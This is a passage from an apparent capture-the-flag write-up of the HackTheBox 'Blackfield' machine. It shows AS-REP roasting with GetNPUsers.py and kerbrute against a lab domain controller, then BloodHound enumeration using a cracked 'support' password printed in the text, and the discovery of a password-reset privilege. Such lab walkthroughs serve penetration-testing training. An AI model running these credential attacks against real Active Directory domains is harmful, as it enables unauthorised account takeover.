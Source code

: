 
### Kerberoasting

⇒ We made a users wordlist from the users we got from the smb share and ran kerbrute to find valid users which we can check for DONT_REQ_PREAUTH and kerberoast them :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%204.png)

**python3 [GetNPUsers.py](http://getnpusers.py/) -dc-ip 10.10.10.192 blackfield.local/ -usersfile user.txt**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%205.png)

**support : #00^BlackKnight**

---

### Changing AD Users Password Using RPC

⇒ Now we will run bloodhound that will collect the list of computers , users and groups which will help us enumerate further what we can do with this **support** account

Python Based Bloodhound Ingestor : [https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)

```bash
python3 /opt/BloodHound.py/bloodhound.py -c all -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%206.png)

- After loading it up in bloodhound we see that user support has **ForceChangePassword** privileges to audit2020 user
